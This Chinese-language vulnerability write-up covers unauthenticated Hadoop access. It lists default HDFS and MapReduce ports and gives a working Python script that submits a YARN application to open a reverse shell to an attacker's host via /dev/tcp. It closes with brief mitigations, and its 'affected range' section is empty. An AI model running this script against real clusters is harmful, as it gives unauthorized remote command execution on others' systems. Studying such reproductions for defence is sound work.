

Hadoop未授权访问
================

一、漏洞简介
------------

> Hadoop是一款由Apache基金会推出的分布式系统框架，它通过著名的 MapReduce
> 算法进行分布式处理。这个框架被Adobe，Last
> fm，EBay，Yahoo等知名公司使用着。它极大地精简化程序员进行分布式计算时所需的操作，用户大概通过如下步骤在hadoop中实现分布式处理：

-   用户创建一个处理键值的map函数

-   产生了一套中间键/值

-   reduce函数合并中间值并把他们关联到对应的键

二、影响范围
------------

三、复现过程
------------

#### 1. 扫描探测

##### 1.1 常见端口

##### 1.2 敏感端口

  模块        节点                     默认端口
  ----------- ------------------------ ----------
  HDFS        NameNode                 50070
  HDFS        SecondNameNode           50090
  HDFS        DataNode                 50075
  HDFS        Backup/Checkpoint node   50105
  MapReduce   JobTracker               50030
  MapReduce   TaskTracker              50060

通过访问 NameNode WebUI 管理界面的 50070
端口，可以下载任意文件。而且，如果 DataNode 的默认端口 50075
开放，攻击者可以通过 HDSF 提供的 restful API 对 HDFS
存储的数据进行操作。

#### 2. 攻击手法

利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 REST
API 也可以提交任务执行。

利用过程如下：

-   在本地监听等待反弹 shell 连接

-   调用 New Application API 创建 Application

-   调用 Submit Application API 提交

**P牛的攻击脚本**

    ##!/usr/bin/env python

    import requests

    target = 'http://127.0.0.1:8088/'
    lhost = '192.168.0.1' ## put your local host ip here, and listen at port 9999

    url = target + 'ws/v1/cluster/apps/new-application'
    resp = requests.post(url)
    app_id = resp.json()['application-id']
    url = target + 'ws/v1/cluster/apps'
    data = {
        'application-id': app_id,
        'application-name': 'get-shell',
        'am-container-spec': {
            'commands': {
                'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
            },
        },
        'application-type': 'YARN',
    }
    requests.post(url, json=data)

#### 3. 防范措施

网络访问控制 使用 安全组防火墙 或本地操作系统防火墙对访问源 IP
进行控制。如果您的 Hadoop 环境仅对内网服务器提供服务，建议不要将 Hadoop
服务所有端口发布到互联网。

启用认证功能 启用 Kerberos 认证功能。

更新补丁 不定期关注 Hadoop 官方发布的最新版本，并及时更新补丁。
